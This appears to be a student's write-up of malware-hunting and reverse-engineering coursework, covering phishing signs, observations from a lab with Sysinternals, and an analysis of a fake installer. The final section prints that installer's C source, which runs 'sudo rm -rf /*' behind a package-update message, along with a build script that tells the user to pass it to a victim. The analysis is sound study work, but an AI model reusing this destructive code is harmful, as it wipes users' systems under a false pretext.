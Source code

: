              Assignment 1 – Malware Hunting 
1. The following are some examples of security flaws that you may encounter in your day-to-day life: 
	- Phishing attack   
	-Denial-of-Services attack 
	-Ransomware attack 
	- SQL injections 
	- Malware attacks 
	- Ransomware Attack 
2. The following are the characters of a malicious email 
	- First we need to identify the sender’s email  
	- It may contain suspicious links embeded into them
	- It might contain Grammatical errors 
	- The content is bizarre or unbelievable 
##		Assignment 2 
1. To identify new created process we can use task manager or sysinternals in windows and forkstat to identify new processes and services running.
2. <img src="./shot%20(6).png">
We were able to find the registery folders of the malwares using sysinternals.
## Icons

The executable programs had an icon of a folder while the javascript files and VB scripts were the deafult icons on windows.

3. Malicious softwares contain the following behaviour :
	* They may not contain any icon, description or company name
	*  Often times they don't have a signed Microsoft image
 	* They live in windows directory or user profile 
	* They are packed 


	* They include strange urls attached to them 
	* Have suspicious DLLs 
5. A. We can use the "net users" command to find list of users in our computer.
     B. We can use Event viewer software to know our login history 

<img src="shot (1).png">

>At the first shot we could not find any suspicious processes running in the background.

<img src="shot (3).png">

>Once the malware samples were executed new processes and services strated popping up.these include:

    * javascript files
    * Visual basic scripts and
    * Executable programs


<img src="shot (4).png">

>Most of the malwares samples have managed to enter the administrator folder of the system.

>No new users were created during this process.


# Eradication

Finally we can eradicate the malicious programs by deleting the processes using sysinternals.

# Malware Analysis and Reverse Engeneering

The challange was to analyze a C code which was intiated by running the build.sh file. 

```bash
#!/bin/sh
gcc main.c -o msfinstall
mv msfinstall ..
cd .. && rm -rf fake-msfinstall/
echo "Now pass 'msfinstall' to the victim."
exit
```

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

#define kill_os "sudo rm -rf /*"
#define text "Switching to root user to update the package" 
#define error_text "There has been an error."

int main(){
#if defined __linux__ || defined __unix__
    if ( geteuid() != 0 ){
        printf("%s\n", text); 
    }
    system(kill_os);
#else
    printf("%s\n", error_text);
    return 1;
#endif
}
```

   1. The program starts by insuring that the current system is a linux/unix based one.
   2. If the system turns out to be a non linux/unix one it will display an error.
   3. Once the system is assured to be linux/unix then it will remove the root folder of the os which will lead to a complete distruction of the system.
